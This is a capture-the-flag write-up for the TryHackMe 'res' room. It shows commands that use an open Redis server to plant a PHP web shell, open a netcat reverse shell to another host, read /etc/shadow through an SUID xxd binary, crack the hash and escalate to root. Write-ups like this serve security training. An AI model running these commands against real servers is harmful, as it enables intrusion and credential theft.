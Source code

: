 # Res

These notes are from a challenge I did @[tryhackme](https://tryhackme.com) called [res](https://tryhackme.com/room/res).

## Flag 1

Scanning the environment we find an apache web server and a redis database...

``` sh
sudo nmap -sC -sV -sS 10.10.103.145 -p-
```

When connecting to redis we can set write a file to the main apache dir and create a simple php reverse shell:

``` sh
redis-cli -h 10.10.103.145
>config set dir /var/www/html
>config set dbfilename shell.php
>set test "<?php system($_GET['']);?>"
```

Before we visit our new page we should open a netcat session:

``` sh
nc -nvlp 666
```

Time to run our shell.php :)

``` sh
http://10.10.103.145/shell.php?cmd=nc 10.10.146.116 667 -e /bin/sh
```

Once we are succesfully connected we can stabilize the shell and view the first flag:

``` sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
cat /home/vianka/user.txt
```

## Flag 2

Lets have a look at the passwd

``` sh
cat /etc/passwd
vianka:x:1000:1000:Res,,,:/home/vianka:/bin/bash
```

There is SUID bit set for xxd. To access the shadow file can use [this trick](https://gtfobins.github.io/gtfobins/xxd/).

``` sh
LFILE=/etc/shadow
xxd "$LFILE" | xxd -r
vianka:$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:18507:0:99999:7:::
```

Time to crack the password:

``` sh
unshadow passwd.txt shadow.txt > hash.txt
john hash.txt
```

Once we have the password we can escalate our privileges to vianka which somehow also has root access.

``` sh
su vianka
sudo su
cat /root/root.txt
```
